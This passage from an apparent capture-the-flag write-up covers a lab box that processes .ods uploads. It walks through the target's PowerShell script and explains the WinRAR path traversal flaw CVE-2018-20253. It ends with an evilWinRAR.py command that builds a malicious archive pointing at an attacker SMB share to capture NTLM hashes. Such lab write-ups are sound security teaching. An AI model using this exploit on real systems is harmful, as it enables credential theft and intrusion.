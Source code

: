```powershell
		# kill open office, sleep
		Stop-Process -Name soffice*
		Start-Sleep -s 5

		#& 'C:\Program Files (x86)\WinRAR\Rar.exe' a -ep $process_dir\temp.rar $process_dir\*.ods 2>&1 | Out-Null
		Compress-Archive -Path "$process_dir\*.ods" -DestinationPath "$process_dir\temp.zip"
		$hash = (Get-FileHash -Algorithm MD5 $process_dir\temp.zip).hash
		# Upstream processing may expect rars. Rename to .rar
		Move-Item -Force -Path $process_dir\temp.zip -Destination $files_to_analyze\$hash.rar
	}

	Remove-Item -Recurse -force -Path $process_dir\*
	Start-Sleep -s 5
}
```

If I understand this correctly:

- The contents of the `malware_dropbox` share are moved to `C:\Users\luke\Documents\malware_process`
- The .ods files are renamed to .zip
- The .zip file is extracted and the contents processes by the Yara rules with `yara64.exe`
- If the file matches a Yara rule, it gets deleted
- Anything left gets executed with LibreOffice
- The files are repackaged in a .rar file and moved to `C:\Users\luke\Documents\ods` for further processing

The .rar reference is a subtle hint. When I look at the Downloads directory I see that an old WinRAR version was downloaded:

```
03/13/2019  06:45 PM       298,860,544 LibreOffice_6.2.1_Win_x64.msi
03/14/2019  05:13 AM         3,809,704 npp.7.6.4.Installer.x64.exe
03/15/2019  10:22 AM         1,987,544 winrar-5-50-beta-1-x86.exe
```

There's a `CVE-2018-20253` that impacts all versions prior to and including 5.60. When the filename field is manipulated with specific patterns, the destination folder is ignored and the filename is treated as an absolute path. So basically an attacker can write anywhere on the target host when the file is unpacked, not just the directory where's it's extracted. This vulnerability is similar to the zipslip vulnerability.


The first thing I'll try it to get the hash of the user extracting the .rar files:

```
# python3 /opt/Evil-WinRAR-Gen/evilWinRAR.py -e evil.txt -g good.txt -p '\\10.10.16.9\snowscan\gimmehashes'

          _ _  __      ___      ___    _   ___
  _____ _(_) | \ \    / (_)_ _ | _ \  /_\ | _ \
 / -_) V / | |  \ \/\/ /| | ' \|   / / _ \|   /
 \___|\_/|_|_|   \_/\_/ |_|_||_|_|_\/_/ \_\_|_\

                                        by @manulqwerty

----------------------------------------------------------------------

[+] Evil archive generated successfully: evil.rar
[+] Evil path: \\10.10.16.9\snowscan\gimmehashes
```
